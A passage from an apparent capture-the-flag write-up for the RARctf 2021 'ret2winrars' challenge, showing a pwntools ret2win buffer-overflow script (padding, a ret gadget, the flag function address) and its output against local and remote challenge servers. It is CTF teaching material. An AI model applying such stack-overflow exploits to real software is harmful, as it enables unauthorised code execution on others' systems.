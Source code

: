 ```python
junk = b'A'*40

flag = elf.symbols['flag']
ret = (rop.find_gadget(['ret']))[0]


payload = [
	junk,
	p64(ret),
	p64(flag)
]


payload = b''.join(payload)

print( p.recvuntil(': ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)

print(len(p64(flag)))

print( p.recvall().decode(encoding='ascii') )
```

 Using the `ROP` object, we can access all gadgets (useful instructions) in the binary. Allowing us to search for a `ret` instruction:

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './ret2winrars'
[+] Opening connection to 127.0.0.1 on port 1337: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x10@\x00\x00\x00\x00\x00b\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (113B)
[*] Closed connection to 127.0.0.1 port 1337
rarctf{f4k3_fl4g_f0r_t35t1ng}
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
```

Fantastic! Now just change the remote address and see:

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './ret2winrars'
[+] Opening connection to 193.57.159.27 on port 30527: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x10@\x00\x00\x00\x00\x00b\x11@\x00\x00\x00\x00\x00'
8
```